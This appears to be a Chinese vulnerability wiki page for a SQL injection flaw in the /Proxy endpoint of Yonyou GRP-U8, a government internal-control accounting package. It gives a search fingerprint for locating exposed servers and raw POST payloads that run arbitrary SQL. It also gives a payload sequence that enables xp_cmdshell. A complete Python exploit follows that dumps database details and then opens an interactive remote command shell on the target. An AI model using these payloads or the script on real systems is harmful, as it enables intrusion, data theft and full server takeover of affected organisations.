





用友 GRP-U8 Proxy SQL注入 CNNVD-201610-923¶
漏洞描述¶
用友GRP-u8存在XXE漏洞，该漏洞源于应用程序解析XML输入时没有进制外部实体的加载，导致可加载外部SQL语句，以及命令执行
漏洞影响¶
用友GRP-U8行政事业内控管理软件（新政府会计制度专版）
网络测绘¶
title="用友GRP-U8行政事业内控管理软件"
漏洞复现¶
漏洞利用POC请求包
POST /Proxy HTTP/1.1
Accept: Accept: */*
Content-Type: application/x-www-form-urlencoded User-Agent: Mozilla/4.0 (compatible; MSIE 6.0;) Host: host
Content-Length: 357
Connection: Keep-Alive
Cache-Control: no-cache
cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION> <NAME>AS_DataRequest</NAME><PARAMS><PARAM> <NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM> <NAME>Data</NAME><DATA format="text">select @@version</DATA></PARAM></PARAMS> </R9FUNCTION></R9PACKET>
请求后按F12查看源代码可以得到SQL语句查询结果


也可以调用 xp_cmdshell 来执行系统命令(大部分此系统为**windows**)

- 注意：大部分默认是不开启 xp_cmdshell 模块的

可以使用如下方法打开**xp_cmdshell方法**
将如下POST数据按顺序发送(注意 master 改为当前数据库名)
cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">use master</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>
cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">exec sp_configure 'show advanced options',1</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>
cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">reconfigure</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>
cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">exec sp_configure 'xp_cmdshell',1</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>
cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">reconfigure</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>
- 发送如上实际为执行SQL语句打开 xp_cmdshell use master; exec sp_configure 'show advanced options',1; reconfigure; exec sp_configure 'xp_cmdshell',1; reconfigure;
再发送以下数据可成功使用(也可能失败)
cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">exec xp_cmdshell "whoami"</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>
- 执行过程中报错 java.sql.SQLException【错误代码: 0; 相关信息:xxxxxx】不用理会
发送请求后再使用此模块则会成功请求执行系统命令
漏洞POC¶
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from : http://wiki.peiqi.tech
import requests
import re
import sys
def title():
print('+------------------------------------------')
print('+ \033[34mPOC_Des: http://wiki.peiqi.tech \033[0m')
print('+ \033[34mGithub : https://github.com/PeiQi0 \033[0m')
print('+ \033[34m公众号 : PeiQi文库 \033[0m')
print('+ \033[34mVersion: 用友GRP-U8行政事业内控管理软件 \033[0m')
print('+ \033[36m使用格式: python3 CNNVD-201610-923.py \033[0m')
print('+ \033[36mUrl >>> http://xxx.xxx.xxx.xxx \033[0m')
print('+ \033[36m(Y/N) >>> Y or N \033[0m')
print('+ \033[36mcmd >>> ipconfig \033[0m')
print('+------------------------------------------')
def POC_1(target_url):
check_url = target_url + "/Proxy"
headers = {
"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
"Content-Type": "application/x-www-form-urlencoded"
}
data = """cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">select 1,user,db_name(),host_name(),@@version</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>"""
try:
print("\033[32m[o] 正在执行SQL语句:select 1,user,db_name(),host_name(),@@version...\033[0m")
response = requests.post(url=check_url, headers=headers, data=data, timeout=10)
row_1 = '<ROW COLUMN1="1"'
row_2 = r'COLUMN2="(.*?)"'
row_3 = r'COLUMN3="(.*?)"'
row_4 = r'COLUMN4="(.*?)"'
row_5 = r'COLUMN5="(.*?)"'
if row_1 in response.text and "服务器错误信息：null" not in response.text:
db_user = re.findall(row_2, response.text)[0]
db_name = re.findall(row_3, response.text)[0]
db_host = re.findall(row_4, response.text)[0]
db_vers = re.findall(row_5, response.text)[0]
print("\033[32m[o] 存在漏洞，漏洞响应为:\033[0m")
print("\033[32m >> 数据库用户为:{}\033[0m".format(db_user))
print("\033[32m >> 数据库名为:{}\033[0m".format(db_name))
print("\033[32m >> 数据库主机名为:{}\033[0m".format(db_host))
print("\033[32m >> 数据库版本为:{}\033[0m".format(db_vers))
return db_name
else:
print("\033[31m[x] 漏洞已被修复 \033[0m")
sys.exit(0)
except:
print("\033[31m[x] 请求失败 \033[0m")
sys.exit(0)
def xp_cmdshell_open(target_url, db_name):
open_sql = ["use {}".format(db_name),"exec sp_configure 'show advanced options',1","reconfigure","exec sp_configure 'xp_cmdshell',1","reconfigure"]
num = 1
for sql in open_sql:
open_url = target_url + "/Proxy"
headers = {
"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
"Content-Type": "application/x-www-form-urlencoded"
}
data = 'cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">{}</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>'.format(sql)
try:
print("\033[32m[o] 正在执行SQL语句:{}...\033[0m".format(sql))
response = requests.post(url=open_url, headers=headers, data=data, timeout=10)
num = num + 1
if num == 5 :
POC_2(target_url, db_name)
except:
print("\033[31m[x] 开启 xp_cmdsheall 失败 \033[0m")
sys.exit(0)
def POC_2(target_url, db_name):
db_name = db_name
sql_cmd_url = target_url + "/Proxy"
headers = {
"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
"Content-Type": "application/x-www-form-urlencoded"
}
data = """cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">exec xp_cmdshell "whoami"</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>"""
try:
print("\033[32m[o] 正在执行SQL语句:exec xp_cmdshell 'whoami'...\033[0m")
response = requests.post(url=sql_cmd_url, headers=headers, data=data, timeout=10)
if 'exec xp_cmdshell' in response.text:
print("\033[31m[x] 数据库未开启 xp_cmdshell 模块\033[0m")
sqlcmd_open = str(input("\033[35m是否开启 xp_cmdshell\n(Y/N) >>> \033[0m"))
if sqlcmd_open == 'Y' or sqlcmd_open == 'y':
xp_cmdshell_open(target_url, db_name)
else:
print("\033[31m[x] 停止开启 xp_cmdshell \033[0m")
sys.exit(0)
else:
whoami = re.findall(r'output="(.*?)"', response.text)[0]
print("\033[32m[o] 成功执行SQL语句:exec xp_cmdshell 'whoami'...\n>>> {}\033[0m".format(whoami))
except Exception as e:
print("\033[31m[x] 请求失败:{} \033[0m".format(e))
sys.exit(0)
def POC_3(target_url, cmd):
vuln_url = target_url + "/Proxy"
headers = {
"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
"Content-Type": "application/x-www-form-urlencoded"
}
data = 'cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">exec xp_cmdshell "{}"</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>'.format(cmd)
try:
print("\033[32m[o] 正在执行SQL语句:exec xp_cmdshell '{}'...\033[0m".format(cmd))
response = requests.post(url=vuln_url, headers=headers, data=data, timeout=10)
data = re.findall(r'output="(.*?)"', response.text)
for i in data:
print("\033[32m >>> {}\033[0m".format(i))
except Exception as e:
print("\033[31m[x] 请求失败:{} \033[0m".format(e))
sys.exit(0)
if __name__ == '__main__':
title()
target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
db_name = POC_1(target_url)
POC_2(target_url, db_name)
while True:
cmd = input("\033[35mCmd >>> \033[0m")
if cmd == "exit":
sys.exit(0)
else:
POC_3(target_url, cmd)
